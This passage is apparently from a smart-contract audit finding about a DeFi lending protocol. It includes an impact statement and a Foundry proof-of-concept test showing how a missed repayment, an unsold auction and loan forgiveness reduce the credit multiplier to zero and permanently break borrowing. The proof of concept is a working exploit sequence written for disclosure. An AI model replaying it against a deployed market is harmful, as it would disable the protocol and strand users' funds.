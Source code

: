  ```solidity
                     interest
                 );
             }
             ProfitManager(refs.profitManager).notifyPnL(address(this), pnl);
         }
 
              ....
 }
 ```
 
 ## Impact
 Deployed market becomes permanently bricked, without any available mechanism to fix it.
 
 ## Proof of Concept
 A POC added to `LendingTerm.t.sol` . It demonstrates how all vital contracts of a market can be disabled.
 
 Summary of the POC:
 
 * User borrows loan in a market with partial repay period of 30 days
 * User misses a payment → loan becomes callable
 * Loan is called and send to auction
 * During the auction, no one buys the loan
 * The user forgives his loan
 * Since this was the only loan, multiplier is reduced to 0
 * System becomes dysfunctional
 
 ```solidity
 function testReduceMultiplyerToZero() public {
         // borrow
         uint256 borrowAmount = 20_000e18;
         uint256 collateralAmount = 15e18;
         collateral.mint(address(this), collateralAmount * 10);
         collateral.approve(address(term), collateral.balanceOf(address(this)));
         bytes32 loanId = term.borrow(borrowAmount, collateralAmount);
 
         // not paying on time
         vm.warp(block.timestamp + _MAX_DELAY_BETWEEN_PARTIAL_REPAY + 1);
         vm.roll(block.number + 1);
 
         //bidder calls the loan
         address bidder = address(10);
         vm.startPrank(bidder);
         term.call(loanId);
         assertEq(term.getLoan(loanId).callTime, block.timestamp);
 
         // auction passes, without anyone buying the loan
         vm.warp(block.timestamp + auctionHouse.auctionDuration());
         vm.roll(block.number + 1);
 
         assertEq(profitManager.creditMultiplier(), 1e18);
 
         // Debt is forgiven
         auctionHouse.forgive(loanId);
         vm.stopPrank();
         assertEq(auctionHouse.getAuction(loanId).endTime, block.timestamp);
 
         // Credit multiplier is reduced to 0
         assertEq(profitManager.creditMultiplier(), 0);
 
         // Borrow is not working anymore
         vm.expectRevert(); // throws "Division or modulo by 0"
         term.borrow(borrowAmount, collateralAmount);
 ```